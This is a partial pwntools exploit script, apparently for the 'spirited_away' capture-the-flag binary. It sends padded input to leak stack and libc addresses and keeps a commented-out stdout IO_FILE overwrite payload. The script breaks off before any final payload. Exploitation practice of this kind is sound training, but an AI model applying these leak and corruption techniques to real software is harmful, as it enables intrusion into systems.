   ```python
  def get_base(a):
      text_base = a.libs()[a._cwd+ "/spirited_away"]
      for key in a.libs():
          if "libc-2.23.so" in key:
              return text_base,a.libs()[key]
  def debug():
      text_base,libc_base=get_base(a)
      script="set $text_base="+str(text_base)+'\n'+"set $libc_base="+str(libc_base)+'\n'
      script +='''
      b *0x080486F8
      '''
      gdb.attach(a,script)
  def fuck(address):
      n = globals()
      for key,value in n.items():
          if value == address:
              return success(key+"  ==>  "+hex(address))
  def menu(idx):
      a.sendlineafter("",str(idx))
  def comment_(name,age,reason,comment):
      a.sendlineafter("Please enter your name: ",name)
      a.sendlineafter("Please enter your age: ",str(age))
      a.sendafter("Why did you came to see this movie? ",reason)
      a.sendafter("Please enter your comment: ",comment)
      return 
  
  def add(name,age,reason,comment):
      comment_(name,age,reason,comment)
      a.sendlineafter("Would you like to leave another comment? <y/n>: ","y")
      return 
  
  def add_2(age,reason):
      a.sendlineafter("Please enter your age: ",str(age))
      a.sendafter("Why did you came to see this movie? ",reason)
      a.sendafter("Would you like to leave another comment? <y/n>: ","y")
      return
  
  
  def edit(idx,content):
      return 
      
  def show(idx):
      return 
  relloc_offset = [0,2,4,6,0xb,0xc,0x10]
  #payload='\x00'*0x33+p64(0x00000000fbad1800)+p64(0)*3+'\x00'    #stdout-0x33 IO_FILE
  #debug()
  
  '''
  comment_("jlx",20,"a" * 56,"b")
  a.recvuntil("Reason: ")
  a.recvuntil("a" * 56)
  stack_addr = u32(a.recv(4)) - 0x70 + 8 +8
  fuck(stack_addr)
  a.recv(4)
  libc_base = u32(a.recv(4)) - libc.sym["fflush"] - 11
  fuck(libc_base)
  a.sendafter("Would you like to leave another comment? <y/n>: ","y")
  '''
  #debug()
  comment_("jlx",20,"a" * 20,"b")
  a.recvuntil("Reason: ")
  a.recvuntil("a" * 20)
  stack_addr = 0
  ```